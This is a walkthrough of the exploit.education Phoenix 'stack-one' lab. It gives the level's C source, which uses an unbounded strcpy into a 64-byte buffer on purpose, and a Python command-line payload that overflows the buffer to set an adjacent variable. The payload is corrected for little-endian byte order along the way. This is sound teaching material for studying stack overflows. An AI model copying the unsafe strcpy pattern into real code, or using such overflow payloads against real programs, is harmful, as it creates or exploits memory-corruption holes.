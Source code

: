 ## Stack One
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

## Source Code
```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the `changeme` variable to `0x496c5962`.

## Solution
Just like in `stack-zero`:
* We need to change the value of `locals.changeme`
* We have a vulnerable function (`strcpy()`) acting on `locals.buffer`

This time we want a specific value in `locals.changeme` = `0x496c5962` and our input is passed through the program's arguments.

### The Plan
`strcpy()` does not receive a length of chars to write, instead it copies from a source buffer to a dest buffer until it encounters a terminating null byte (it includes the byte).

It allows us to overflow from `locals.buffer` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x49\x6c\x59\x62'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```
Byte order is important, the value interpreted for `changeme` hints this system is `little-endian` - meaning the LSB (least-significant-byte) is first in memory.

![](/images/stack-1/0.png)
> Notice endianness only affects the layout of multi-byte representations like integers and some string encodings (like `UTF-16`).

We can verify this using the program `lscpu`, it displays CPU architecture information, among it is byte order.
```console
user@phoenix-amd64:~$ lscpu | grep "Byte Order"
Byte Order:            Little Endian
```

That's why our buffer representing a `32bit` integer was interpreted as `0x62596c49`.

Let's write it to memory in `little-endian` representation.
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳
